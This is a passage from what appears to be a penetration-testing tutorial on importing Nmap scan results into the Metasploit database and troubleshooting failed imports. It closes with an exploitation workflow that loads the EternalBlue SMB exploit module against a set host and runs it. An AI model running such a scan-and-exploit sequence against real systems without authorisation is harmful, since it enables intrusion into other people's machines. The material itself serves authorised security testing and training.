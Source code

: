 ### Issue 2: XML Import Failure
**Problem:** db_import command fails with parsing errors
**Cause:** Corrupted XML file or incomplete Nmap scan
**Solution:**
```bash
# Verify XML file integrity
head -n 20 myscan.xml
tail -n 10 myscan.xml

# Re-run Nmap scan if XML is corrupted
nmap -sV -Pn -oX myscan_new.xml target

# Try import again
db_import myscan_new.xml
```

### Issue 3: No Hosts Imported
**Problem:** Import succeeds but hosts command shows empty results
**Cause:** Nmap scan found no live hosts or used incompatible scan type
**Solution:**
```bash
# Use host discovery skip option
nmap -Pn -sV -oX scan.xml target

# Verify scan actually discovered services
cat scan.xml | grep -i "open"

# Clear database and re-import if needed
db_rebuild_cache
```

### Issue 4: Service Information Missing
**Problem:** Hosts imported but services command shows no results
**Cause:** Nmap scan performed without service version detection
**Solution:**
```bash
# Re-scan with service version detection
nmap -sV -sC -Pn -oX detailed_scan.xml target

# Import updated scan
db_import detailed_scan.xml

# Verify services are detected
services -p 80,443,22,21,23
```

## 🔗 Integration with Other Tools

### Primary Integration: Nmap → MSF → Exploitation Modules
```bash
# Complete exploitation workflow
nmap -sV -Pn -oA network_scan target_range
service postgresql start
msfconsole
db_import network_scan.xml

# Leverage imported data for targeted exploitation
search type:exploit platform:windows
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.0.16.177
exploit
```
